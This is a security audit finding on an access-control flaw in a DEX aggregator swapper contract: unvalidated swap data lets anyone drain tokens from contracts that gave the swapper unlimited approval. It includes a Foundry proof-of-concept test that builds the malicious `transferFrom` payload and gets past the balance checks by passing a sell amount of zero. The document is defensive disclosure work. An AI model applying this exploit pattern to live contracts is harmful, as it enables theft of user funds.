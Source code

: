 # [MEDIUM] - Lack of input validation on `OrigamiDexAggregatorSwapper.execute()` allows an attacker to steal the token balance of contracts that granted approvals to the swapper contract

## Issue Description

- The function `OrigamiDexAggregatorSwapper.execute()` has no access control so that any arbitrary address can call it
- That function accepts a `swapData` bytes parameter, which is decoded into a `router` and `data`, which are the target contract and the bytes for the call
- There is no input validation on the `router` or the data, so arbitrary values can be passed there.


```javascript
contract OrigamiDexAggregatorSwapper is IOrigamiSwapper, OrigamiElevatedAccess {
    using SafeERC20 for IERC20;
    using DexAggregator for address;

    struct RouteData {
        address router;
        bytes data;
    }

    constructor(
        address _initialOwner
    ) OrigamiElevatedAccess(_initialOwner) {
    }

    // ...

    /**
     * @notice Execute a DEX aggregator swap
     */
    function execute(
        IERC20 sellToken, 
        uint256 sellTokenAmount, 
        IERC20 buyToken, 
        bytes calldata swapData
    ) external override returns (uint256 buyTokenAmount) {
        sellToken.safeTransferFrom(msg.sender, address(this), sellTokenAmount);

        RouteData memory routeData = abi.decode(
            swapData, (RouteData)
        );

        buyTokenAmount = routeData.router.swap(sellToken, sellTokenAmount, buyToken, routeData.data);

        // Transfer back to the caller
        buyToken.safeTransfer(msg.sender, buyTokenAmount);
        emit Swap(address(sellToken), sellTokenAmount, address(buyToken), buyTokenAmount);
    }
}
```

The issue is that an arbitrary caller can pass any contract as a target and any data to be executed on that target. For instance, the `transferFrom()` function could be executed on a token contract to take tokens from contracts that granted approvals to the swapper. The following contracts grant infinite permissions to the swapper contract:

- OrigamiMorphoBorrowAndLend  -->  max approvals for `supplyToken` and `borrowToken`
- OrigamiLovTokenErc4626Manager   -->  max approvals for `depositAsset` and `debtAsset`
- OrigamiLovTokenFlashAndBorrowManager  -->  max approvals for `reserveToken` and `debtToken`

From the above, only the `OrigamiMorphoBorrowAndLend` holds any funds that could be stolen with this attack, because this contract is expected to have a surplus of `borrowToken` and `supplyToken`. 
At the moment of writing, the surplus is worth $1000, but after stolen they would eventually be more tokens to steal, after the next rebalance operation. 
The remaining contracts with infinite approvals to the swapper do not hold any approved funds at the moment. 

There are some checks and requirements performed in  the `router.swap()` function, but it is not hard to bypass them. The PoC provided in a later section describes the exact steps to perform such an attack. 

## Impact: medium

Even though the issue could be classified as a high-risk issue, the amount of funds vulnerable to this attack is limited to the `OrigamiMorphoBorrowAndLend`, and the amount is only the surplus tokens between rebalance operations. Therefore, the issue is downgraded to **medium**. 

## Recommended mitigation

The following mitigations were discussed with the team:
1. Client contracts approve as needed for the exact amount only. That will be a cumbersome migration to upgrade all
2. Add access control on the `execute()` function
3. Whitelist valid router contracts on the swapper 

From the above, I believe option 3/ is the safest. Adding access control on the `execute()` function means that any address with the `ElevatedAccess` role could still perform the attack. Moreover, a bit would need access to this function, as the rebalancing is done by a bot. A bot's private keys are more prone to leakages than a multisig. Whitelisting routers on the other hand can be forced to go through a multisig, reducing the likelihood of this attack. 

## Proof of Code

The following proof of code written in Foundry illustrates how an attacker could steal `borrowTokens` held by the `OrigamiMorphoBorrowAndLend` contract:

```javascript
pragma solidity 0.8.19;
// SPDX-License-Identifier: AGPL-3.0-or-later

import { Test, console } from "lib/forge-std/src/Test.sol";
import { ERC20 } from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

import { OrigamiDexAggregatorSwapper } from "contracts/common/swappers/OrigamiDexAggregatorSwapper.sol";
import { OrigamiMorphoBorrowAndLend } from "contracts/common/borrowAndLend/OrigamiMorphoBorrowAndLend.sol";

contract MockMorpho {
    // just a functions needed for initialization of MorphoBorrowLend
    function extSloads(bytes32[] memory slots) external view returns (bytes32[] memory) {
        bytes32[] memory array = new bytes32[](1);
        // just set some random bytes so that the initializator doesn't complain about it being 0
        array[0] = bytes32("asdfaasdfasdfasdfasdfasdfassd");
        return array;
    }
}

contract DexSwapperExploitTest is Test {
    OrigamiDexAggregatorSwapper public dexSwapper;
    OrigamiMorphoBorrowAndLend public morphoBorrowAndLend;

    address exploiter = makeAddr("exploiter");
    address origamiMultisig = makeAddr("origamiMultisig");

    // irrelevant for this test
    MockMorpho morpho = new MockMorpho();
    address _morphoMarketOracle = makeAddr("_morphoMarketOracle");
    address _morphoMarketIrm = makeAddr("_morphoMarketIrm");

    ERC20 supplyToken;
    ERC20 borrowToken;

    function setUp() public {
        supplyToken = new ERC20("SUPPLY", "SUPPLY");
        borrowToken = new ERC20("BORROW", "BORROW");

        dexSwapper = new OrigamiDexAggregatorSwapper(origamiMultisig);
        morphoBorrowAndLend = new OrigamiMorphoBorrowAndLend(
            origamiMultisig, // address _initialOwner,
            address(supplyToken), // address __supplyToken,
            address(borrowToken), // address __borrowToken,
            address(morpho), // address _morphoAddress,
            _morphoMarketOracle, // address _morphoMarketOracle,
            _morphoMarketIrm, // address _morphoMarketIrm,
            2000, // uint96 _morphoMarketLltv,
            1000 // uint256 _maxSafeLtv
        );

        vm.prank(origamiMultisig);
        morphoBorrowAndLend.setSwapper(address(dexSwapper));
    }

    function test_approvals() public {
        assertEq(supplyToken.allowance(address(morphoBorrowAndLend), address(dexSwapper)), type(uint256).max);
        assertEq(borrowToken.allowance(address(morphoBorrowAndLend), address(dexSwapper)), type(uint256).max);
    }

    function test_exploti_viaDexFlexySwapper() public {
        // OrigamiMorphoBorrowAndLend approves the swapper in the constructor
        assertEq(borrowToken.allowance(address(morphoBorrowAndLend), address(dexSwapper)), type(uint256).max);

        // the pre-condition is that there are some supply/borrow tokens in the OrigamiMorphoBorrowAndLend 
        // This may be from surplus debtTokens or other reasons
        deal(address(borrowToken), address(morphoBorrowAndLend), 0.1e18);

        //////////////// the exploit ////////////////
        // this exploit consists in stealing any borrowToken (or supplyToken) from 
        // any contract that has infinite approvals on the swapper contract:
        //  - OrigamiMorphoBorrowAndLend
        //  - OrigamiLovTokenErc4626Manager
        //  - OrigamiLovTokenFlashAndBorrowManager


        // `router` here is the target contract to call
        // `data` is the data to call on the target contract
        OrigamiDexAggregatorSwapper.RouteData memory routeData = OrigamiDexAggregatorSwapper.RouteData({
            router: address(borrowToken),
            data: abi.encodeWithSignature(
                "transferFrom(address,address,uint256)", 
                address(morphoBorrowAndLend), // from = morpho, who has max approvals to the swapper
                address(dexSwapper), // to == the swapper contract, which will send it after to the msg.sender
                0.1e18  // the balance to steal sitting on the morphoBorrowAndLend contract
            )
        });
        // we encode the transferFrom data as if it was the swap data
        bytes memory swapData = abi.encode(routeData);
        
        // note that this call can be done by anyone, as the dexSwapper.execute() has no access control
        vm.startPrank(exploiter);

        // The actual swap is done with DexAggregator.swap() (library called with the context of the swapper contract)
        // There are a number of checks that happen in the DexAggregator.swap() function, but they are bypassed in this attack:
        // 1. The router must be a non-empty contract
        // 2. After the sawp, this must hold: sellToken.balanceOf(swapper) = initialSellTokenBalance - sellTokenAmount. 
        //      however, the sender has control over the sellTokenAmount, 
        //      If we pass sellTokenAmount==0, the requirement turns into sellToken.balanceOf(swapper) == initialSellTokenBalance 
        //      which will be the case if we only call the transferFrom function on the buyToken.
        // 3. The buyToken balance of the swapper must increase (this is the case of the transferFrom, as we are sending the stolen tokens to the swapper contract, to let the swapper send it afterwards to the exploiter)
        dexSwapper.execute(
            supplyToken, // sellToken. // any token which balance doesn't change in the exploit
            0, // sellTokenAmount. // Setting this to 0 bypasses the check initialSellTokenBalance check
            borrowToken, // buyToken. // The swapper's balance of this token must increase
            swapData // swapData // the malicious data to call the transferFrom
        );

        // after the attack, the exploiter has stoken the borrowTokens from the OrigamiMorphoBorrowAndLend contract
        assertEq(borrowToken.balanceOf(exploiter), 0.1e18);
        assertEq(borrowToken.balanceOf(address(morphoBorrowAndLend)), 0);
    }
}
```

